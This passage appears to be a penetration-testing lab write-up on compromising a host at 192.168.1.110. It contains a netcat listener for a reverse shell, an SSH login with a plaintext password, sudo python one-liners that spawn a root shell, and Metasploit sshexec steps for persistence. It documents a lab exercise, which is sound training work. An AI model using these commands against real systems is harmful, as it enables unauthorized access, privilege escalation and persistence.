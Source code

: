     - on kali attacker machine run:
      - `nc -lnvp 4444`

      - To confirm connection:
        - `whoami`
        - `pwd`

          ![listener](P3_Images/P3T1_nc_lvnp_4444_michael.png)

  - Since an attacker has a higher chance of maintaining access if they have multiple compromised points, I moved on to user steven.

    - SSH connection for steven:
      - `ssh steven@192.168.1.110 -p 22`
      - `pink84`

    - To enumerate user permissions:

      - `sudo -l`
      - Saw that steven had sudo access through python.

        ![sudo_l](P3_Images/P3T1_steven_sudo-l.png)

    - To escalate privileges:
      - `sudo python -c ‘import pty;pty.spawn(“bin/bash”)’`

        OR

      - `sudo python -c ‘import os; os.system(“bash”)’`
      - Gain sudo/root

        ![python_privilege](P3_Images/P3T1_steven_python_gain_root_command.png)

    - Used Metasploit to gain persistence for user steven:
      - `msfconsole`
      - `search ssh`
      - `use multi/ssh/sshexec`
      - `set USERNAME Steven`
      - `set RHOSTS 192.168.1.110`
      - `set PASSWORD pink84`
      - `exploit`
